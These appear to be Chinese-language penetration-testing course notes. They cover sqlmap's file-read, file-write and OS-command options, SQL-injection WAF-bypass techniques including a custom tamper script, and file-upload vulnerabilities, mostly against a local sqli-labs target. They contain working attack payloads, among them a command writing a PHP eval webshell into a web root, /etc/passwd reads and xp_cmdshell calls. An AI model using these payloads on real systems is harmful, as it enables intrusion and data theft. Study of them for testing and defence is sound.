









## 第一天

##### 1. sqlmap进阶

#### (1). 目录结构



#### (2). 如何测试注入

1. 一个test标签代表一个测试
2. <.vector>内为攻击向量
3. <.request>和<.response>中为具体语句
4. 通过第三步的**返回值比较**来判断注入点

#### (3). 扩展参数 

##### a. 其他

###### ①. --proxy

* 使用**代理连接**到目标URL

```
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-1/?id=1" --proxy=http://127.0.0.1:8080 
```

###### ②. --tor

* 使用Tor匿名网络

###### ③. --check-tor

* 检查Tor是否正确使用

###### ④. --dbms

* 强制指定后端DBMS的值

```
python sqlmap.py -u "url" --dbms=MYSQL //指定后端数据库时mysql
python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-1/?id=1" --dbms=mysql --batch
```

###### ⑤. --risk

* ###### 指定要执行的测试风险级别(级别1-3，默认为1,)

```
python sqlmap.py -u "url" --risk [风险级别]

python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-1/?id=1" --risk 2
```

###### ⑥其他选项

| 参数           | 含义                                                         |
| -------------- | ------------------------------------------------------------ |
| -a,--all       | 检索所有内容                                                 |
| --current-user | 获取当前用户信息                                             |
| --tables       | 获取特定数据库的所有表信息                                   |
| --columns      | 获取特定表的所有列信息                                       |
| --schema       | 获取数据库的整体架构信息                                     |
| --dump         | 导出特定数据库或表的数据,不跟任何表或字段则为导出所有数据库信息 |
| --dump-all     | 导出整个数据库服务器上的所有数据                             |
| -D、-T、-C     | 分别指定数据库、表、字段                                     |

##### b. 杂项

| 参数               | 含义                                 |
| ------------------ | ------------------------------------ |
| --alert=ALERT      | 在发现SQL注入时运行主机操作系统命令  |
| --beep             | 在提问、发现漏洞时发出蜂鸣声         |
| --dependencies     | 检查缺失的(可选的)sqlmap依赖项       |
| --disable-coloring | 禁用控制台输出着色                   |
| --list-tampers     | 显示克用的篡改脚本列表               |
| --no-logging       | 禁用日志记录到文件                   |
| --offine           | 在离线模式下工作                     |
| --purge            | 安全地从sqlmap数据目录中删除所有内容 |



##### c. 执行sql语句

* `select @@datadir`输出mysql的data数据存放路径；`select @@secure_file_priv`输出该参数内容

###### ①--sql-query

* 直接**执行指定的sql语句**

```
sqlmap -u [url] --sql-query="sql语句"

python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-1/?id=1" --sql-query="select version()"
```

###### ②--sql-shell

* 直接获得*交互式的SQL**命令shell*** (用于执行update、delete、drop、alert等语句)
* **执行的语句与注入点的类型有关**
* 输入***X或者Q***退出交互命令行

```
sqlmap -u [URL] --sql-shell

python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-1/?id=1" --sql-shell
```

###### ③--sql-file

* 直接执行sql文件中的语句

```
sqlmap -u [URL] --sql-file=sql文件

python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-1/?id=1" --sql-file="D:\NetTools\sqlmap\sql_file.sql"

sql_file.sql内容：
select version();
select @@datadir;	//输出mysql存放数据的路径
```

#### (4). 文件操作

* 危害
  * 存在SQL注入漏洞
  *  **root权限**
  * 可以进行文件**读写操作**
  * 知道**绝对路径**
* 防御
  * 输入时对敏感语句过滤
  * my.ini中配置secure_file_priv=null

##### a. 读文件

###### ①满足条件

1. **secure_file_priv**要么禁用，要么设置了路径
2. mysql有对某个**目录读写**的权限
3. 知道**绝对路径**
4. 文件**必须在服务器上存在**
5. max_allowed_packed     //读写文件最大的字节数

###### ①load_file()

```
//windows系统下：
load_file("c:/windows/win.ini")		//可以使用16进制编码来操作内容
load_file("c://windows//win.ini")
load_file("c:\\windows\\win.ini")
//Linux系统下：
load_file("/etc/passwd")
```

###### ②--file-read()

* 原理：利用**load_file()**函数

```
sqlmap -u [url] --file-read "文件绝对路径"		//读取文件可以是文本、二进制文件

python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-1/?id=1" --file-read "D:\phpstudy_pro\WWW\test.txt"
```

##### b. 写文件

###### ①满足条件

1. 有**写文件**权限
   * **secure-file-priv**要么禁用，要么设置了路径
   * mysql有对某个**目录读写**的权限
2. **知道绝对路径**
3. 必须能**绕过单引号过滤**

###### ②使用--sql-query、--sql-shell

* 原理：利用mysql的 **outfile、dumpfile**函数

```
1. 向文件写入内容
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select 1,2,'aaa' into outfile 'D:\phpstudy_pro\test5.txt'" --batch
2. 写入webshell
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select '<?php eval($_POST[1]);?>' into outfile 'D:\phpstudy_pro\WWW\shell3.php'";		//可以转化为16进制写入
3. 获取绝对路径
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select @@datadir;"
4. 查看secure_file_priv的值
python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select @@secure_file_priv;"
```

##### c. 上传文件

###### ①--file-write、--file-dest

```
sqlmap -u [URL] --file-write [源路径的绝对地址] --file-dest [目的路径的绝对地址]
python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-8/?id=1" --file-write "C:\\123.txt" --file-dest "C:\\phpstudy_pro\\www\\test.php"
```

##### d. 执行命令

###### ①-os-shell \ --os-cmd

* 原理：利用mysql的**outfile、dumpfile等写文件**函数

```
sqlmap -u [URL] --os-cmd="whoami"
python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-1/?id=1" --os-cmd="whoami"
```

## 第二天

### 1.  WAF

#### (1). 概述

##### a. 介绍

* web应用防护系统(Web Application Firewall)
* 针对的是**应用层**
* 通过执行一系列**针对HTTP/HTTPS**的安全策略来**专门为Web应用提供保护**的一种**网络安全产品**
* 增大攻击者的**攻击难度和攻击成本**，但并非完全防护

##### b. 分类

###### ①软件WAF

* 软件形式
* **直接检测**服务器上是否有不安全的**文件和操作**
* 比如：安全狗

###### ②硬件WAF

* 硬件形式
* 模式
  1. 串联链路：**拦截恶意流量**
  2. **旁路监听**模式：**只记录攻击**，不拦截
* 比如：绿盟WAF

###### ③云WAF

* 使用**反向代理**，通过配置**NS记录**或**CNAME记录**，使网站请求先经过WAF
* 可以说是**带有防护功能的CDN**
* 比如：百度加速乐、安全宝

###### ④代码内置WAF

* 规则直接**镶嵌到代码中**，并于匹配，再过滤
* **自由度较高**

##### c. 工作流程

###### ①基本流程

1. 身份认证
2. 数据包解析
3. 规则系统匹配
4. 是否拦截

###### ②详细流程



1. 首先进行身份验证，白名单的直接给服务器，黑名单直接拒绝访问，非黑非白名单的要去进行数据包的解析
2. 无法解析数据包的也交给下一步进行处理，正常解析的去进行规则判断
3. 没有匹配到规则的给服务器，匹配到规则的进行拦截

#### (2)绕过WAF

##### a. 判断WAF存在

###### ①手工

* 直接在网站url参数后加上**最基础的测试语句**

###### ②自动

* 使用sqlmap自带的**WAF识别模块**可以识别出**WAF的种类**

```
sqlmap -u [URL] --identify-waf --batch
```

* 识别出来的WAF类型为**XXX Web Application Firewall**,没有特征则为**Generic**
* 详细的规则在**sqlmap的waf目录下**，也可以自己编写规则

##### b. 绕过方法

###### ①大小写绕过

1. 只针对**小写或大写**的**关键字匹配技术**

2. **正则不完善**或是没有用**大小写转换函数**

3. 用法

   ```
   -1' UnIon SelEct 1,2,3
   ```

###### ②替换关键字

1. 关键字双写

   * 出现原因：**只验证一次**字符串或字符串**过滤不完整**

   * 用法

     ```
     -1' ununionion seselectlect 1,2,3	//可以构造更复杂的语句
     ```

2. 同价词替换

   * 出现原因：针对**特殊关键字**进行检测

   * 用法

     | 字符 | 替换                   |
     | ---- | ---------------------- |
     | and  | &&                     |
     | or   | \|\|                   |
     | =    | <>                     |
     | 空格 | %20  (url编码)         |
     | 空格 | %09  (tab键，水平)     |
     | 空格 | **%0a  (换行符)**      |
     | 空格 | %a0  (空格)            |
     | 空格 | **%0b  (tab键，垂直)** |
     | 空格 | %0c  (新的一页)        |
     | 空格 | %0d  (return功能)      |
     | 空格 | /**/                   |

3. 特殊字符拼接

   * 出现原因：**拼接特殊字符**来绕过WAF检测

   * 用法

     ```
     id=1;exec(master..xp_cmdshell'net user')
     =>  id=1;exec('maste'+'r..xp'+'_cmdshell'+'"net user"')
     ```

###### ③编码绕过

* 出现原因：利用浏览器上的**进制转换或者语言编码规则**来绕过waf
* unicode、HEX、URL、ascii、base64等URL编码

1. URL编码

   * 浏览器会对地址栏中，**非保留字**的字符进行URL编码

   * 用法（可以尝试多次编码绕过）

     ```
     //如果waf拦截了union select
     	1' union select 1,2,3 --+
     => 	1' %75%6E%69%6F%6E %73%65%6C%65%63%74 1,2,3 --+
     ```

2. Unicode编码

   ```
   //如果waf拦截了union select
   	1' union select 1,2,3	(替换了i)
   =>	1' un%u0069on sel%u0065ct 1,2,3
   ```

3. 16进制

###### ④注释绕过

* //、 -- 、/* * /、#、--+、-- -、;、--a、/*! */
* 出现原因：利用**语言函数特性**来绕过waf的规则

1. 普通注释

   * 使用/* * /在构造的**查询语句中插入注释**，规避对**空格的依赖**或**关键字**识别

   * 用法

     ```
     	1' union select 1,2,3
     => 	1' /**/union/**/select 1,2,3
     =>	1' /**/union/**/select 1,2,database/*%!a*/()		# 使用/*%特殊符号*/的形式绕过对/**/的正则过滤
     ```

2. **内联注释**

   * **/*! */**只有mysql能识别

   * 用法

     ```
     1. /*! code*/	内联注释可以用于整个SQL语句中
     2. 过滤了union、where、table_name、table_schema、=、and、information_schema等词，可以使用
     	=> /*!%23/*%0a关键词*/ 来绕过
     	=> /*!99999*/
     ```

###### ⑤参数污染

* HPP(HTTP Parameter Polution)又称作**重复参数污染**，当同一参数出现多次，不同中间件会解析为不同的结果

* 如果WAF**只检测同名参数的第一个或最后一个**，并且**中间件特性**正好取与**WAF相反的参数**，则可成功绕过

  

  ```
  	index.php?id=select 1,2,3 from table
  =>	index.php?id=select 1&id=2,3 from table
  ```

###### ⑥缓冲区溢出

* 许多WAF使用**C语言**写的，而C语言**没有缓冲区保护机制**，测试向量时**超出了其缓冲区长度**时，会引发Bug从而绕过

###### ⑦整合绕过

* 结合使用**前面的各种绕过技术**

###### ⑧分块传输绕过

* 将**传输的内容分块**时，处理后的HTTP请求由于**和已知的payload相差较大**，所以可以起到绕过作用

  

###### ⑨特殊符号绕过

* 使用**反引号 `** 可以绕过**空格和正则**，特殊情况下还可以将其作为注释符用

* 使用 **-+.** ，起到**连接字符串**的作用

  ```
  index.php?id=-1.0 union select"1",2,3
  index.php?id=-1E0 union select~1,2,3
  index.php?id=-1 union select 1,2,version()"from users"
  index.php?id=-1 union select`id`,1,2 from users"
  index.php?id=-1 union select 1,2,version()`from users`
  ```

* 普通括号

  ```
  index.php?id=(-1)union(select(1),(2),(3)from(users))
  index.php?id=(1)or(0x50=0x50)
  index.php?id=(-1)union((((((select(1),hex(2),hex(3)from(users)))))))
  ```

* 花括号

  ```
  index.php?id=-1 union select 1,{x 2},3
  ```

* 等号

  * 使用``like``来替代

  ```
  1' union select 1,2,(select group(table_name) from information_schema.tables where table_schema=database())#
  => 1' union select 1,2,(select group(table_name) from information_schema.tables where table_schema like database())#
  ```

* and和or

  ```
  使用关键字双写、关键字替换、内联注释、多行注释来替代
  ```

* 逗号

  ```
  	1' union select 1,2,3 --+
  => 	1' union select * from (select 1)a join (select 2)b join (select 3)c --+
  ```


###### ⑩过滤掉and和or的盲注

```
index.php?id=strcmp(left((select username from users limit 0,1),1),0x42)#
index.php?id=strcmp(left((select+username+from+users+limit+0,1),1)0x42)#

strcmp()函数，两值相等返回0，小于返回-1，大于返回1

//sql语句为：
select * from users where id=strcmp(left((select username from users limit 0,1),1),0x42);
```

#### (3). Tamper模块

##### a.说明

* sqlmap在**默认情况**下，除了使用**CHAR()**函数**防止出现单引号**，没有对注入的数据进行修改
* 可以使用**--tamper参数对数据做修改**来绕过WAF等设备
* 部分脚本主要使用**正则模块**替换**攻击载荷编码**的方式来尝试绕过WAF

##### b. 用法

```
1. 检测WAF种类
	sqlmap -u [URL] --identify-waf(--check-waf)
2. 绕过WAF
	sqlmap -u [URL] --tamper "模块名"
```

##### c. 模板

* tamper.py文件

```python
from lib.core.enums import PRIORITY
import os
__priority__ = PRIORITY.LOWEST
def dependencies():
    pass
def tamper(payload, **kwargs):
    payload = payload.replace('AND', '/*!%23/*%0aAND*/')
    payload = payload.replace('DATABASE()', 'DATABASE/*$%^a*/()')
    payload = payload.replace('FROM', '/*!%23/*%0afrom*/')
    payload = payload.replace('UNION ALL', 'union/*!99999*/all')
    payload = payload.replace('SESSION_USER()', 'USER()')
    payload = payload.replace('USER()', 'USER/*////*/()')
    return payload
```

##### d. 常用tamper



#### (4). SQL语句变形

###### ①空格被过滤

| 符号 | 替换内容               |
| ---- | ---------------------- |
| 空格 | %20  (标准空格)        |
| 空格 | %09  (tab键，水平)     |
| 空格 | **%0a  (换行符)**      |
| 空格 | %a0  (不间断空格)      |
| 空格 | **%0b  (tab键，垂直)** |
| 空格 | %0c  (新的一页)        |

###### ②单引号被过滤

* 将字符转换为16进制，不使用单引号

  ```
  	select * from users where username='Dumb'
  =>	select * from users where username=0x44756d62
  ```

###### ③逗号被过滤

```
1. from to
	select substr(database(),1,1);
	=> select substr(database() from 1 to 1);
2. join
	select 1,2,3
	=> select * from (select 1)a join (select 2)b join (select 3)c
3. offset
	select * from users limit 0,1;
	=> select * from users limit 1 offset 0;
```

###### ④逻辑判断符被过滤

```
1. 等于号(=)绕过
	①1' or 1=1  =>  1' or 1<>1
	②1' or 1=1  =>  1' or 1 like 1a
2. 单个比较符的绕过
	①sqlmap可以使用between脚本，用greatest()返回给定表达式中最大值，least()返回给定表达式中最小值
		select * from users where id=1 and ascii(substr(user(),1,1))>100
		=> select * from users where id=1 and greatest(ascii(substr(user(),1,1)),100)=100
	②使用字符编码
		a. 实体编码   < => &lt;   > =>  &gt;
		b. ASCII码	< => %3C	> =>  %3E 
		c. Unicode编码	< => \u003C   > =>  \u003E
	③使用替代函数
		<  => CHAR(60)   >  =>  CHAR(62)
```

###### ⑤or and xor not绕过

```
1. 使用逻辑判断符替代
	and  =>  &&
    or   =>  ||
    xor  =>  |
    not  =>  !
2. 使用内联注释
	/*!and*/、/*!%23/*%0aand*/
```

###### ⑥函数过滤

```
1. sleep()	=> benchmark(10000000,md5(1))
2. ascii()  =>  ord()
3.  group_concat()	=>  concat_ws()
		例如：select group_concat(1,' -- ',1,' -- ',1)  => select concat_ws(' -- ',1,1,1)
4. substr()  =>  mid()、substring()、left()、right()
```

###### ⑦常见绕过方式

```
1. 绕过关键字检测
    a. user() --> user/*//--//*/()  或  database/*%!a*/()
    b. from  -->  /*!%23/*%0aform*/
    c. 大小写替换
    d. 重复关键字
2. 绕过2个及以上检测语句
union select  --> union/*//--/*/select
union select 1,2,3 -->   union /*!--+/*%0aselect/*!1,2,*/ 3
```

## 第四天

### 1. 文件上传

#### (1). 概述

##### a. 简介

* 文件上传漏洞是指程序员在**开发任意文件上传**功能时，**并未考虑文件格式后缀的合法性校验，**或只考虑在**前端通过js进行后缀检验**

  

##### b. 成因

1. **未过滤**或Web前后端**过滤被绕过**
2. **文件检测**被绕过
3. **中间件**解析
4. **不完善**的黑名单扩展名
5. 文件路径**截断**
6. HTTP**不安全方法**(PUT)

##### c. 高危触发点

1. 头像、相册上传
2. 视频、图片分享
3. 论坛发帖、留言、邮箱附件上传
4. 添加文章图片
5. 编辑器文件上传
6. 后台添加模板类

##### d. 利用条件

1. Web服务器**开启文件上传**功能，且上传api对外开放(即用户可以访问)
2. Web用户对目标**目录具有可写权限甚至执行权限**(一般情况下都有执行权限)
3. **Web容器可以解析上传的脚本**，无论脚本以什么形式存在
4. 服务器配置不当，开启PUT方法时忽略以上条件

##### e. 危害

##### f. 防御

* 即最好**过滤掉图片马中的恶意代码**，防住**危险的脚本类型**

###### ①代码角度

1. 采用**白名单策略**，严格限制上传文件的后缀名
2. 进行**二次渲染**，过滤掉图片马中的恶意代码
3. 上传**文件重命名**，尽量少的从客户端获取信息
4. 避免**文件包含漏洞**
5. 严格**处理文件路径**、防御00**截断漏洞**，避开空格、点、::`$`DATA`$`等**Windows特性**

###### ②服务器角度

1. **及时更新Web容器**，防止解析漏洞的产生
2. **可写目录不给执行权限**

#### (2). 分类

##### a. 前端JS检测

* JS代码通常采用**白名单策略，检测文件后缀名**，配合表单事件使用，**安全防御十分薄弱**，可以轻松绕过

###### ①修改JS代码

* JS运行环境为浏览器，可以**直接修改JS代码，甚至删除表单事件，禁用JS**

###### ②修改文件后缀

1. 先使用**白名单后缀名**，绕过JS检测，上传数据包
2. 再使用**Burp拦截**数据包，**修改后缀名为原后缀**

##### b. 修改content-type

* MIME是描述**消息内容类型**的因特网标准

* MIME消息能包含文本、图像、音频、视频以及其他应用程序专用的数据，当具有该扩展名的文件被访问时，浏览器会自动使用指定的应用程序打开

* 使用Content-Type字段指定文件的MIME类型

  

#### (3). 文件头检测

##### a. 概念

* 文件头是**位于文件开头**的一段承担一定任务的数据，就是为了**描述文件的一些重要属性**，例如图片长度、宽度、像素尺寸等

###### ①文件头结构



###### ②常用图片格式文件头

| 图片格式 | 文件幻数(image number)  |
| -------- | ----------------------- |
| PNG      | 89 50 4E 47 0D 0A 1A 0A |
| JPG      | FF D8 FF E0 00 10 4A 46 |
| GIF      | 47 49 46 38 39 61       |

###### ③常见文件头对应关系

| 文件类型       | 文件头                                            |
| -------------- | ------------------------------------------------- |
| jpeg、jpg、png | JPGGraphic File                                   |
| GIF            | GIF89A                                            |
| doc、xls、ppt  | MS Compound Document v1 or Lotus APProach APRfile |
| zip            | Zip Compressed                                    |

##### b. 绕过方法

###### ①添加文件头

* 在恶意脚本前加上文件头

###### ②制作图片马

###### ③图片加webshell脚本

* 使用 010 editor等编辑工具打开一张图片，在图片中加上webshell脚本
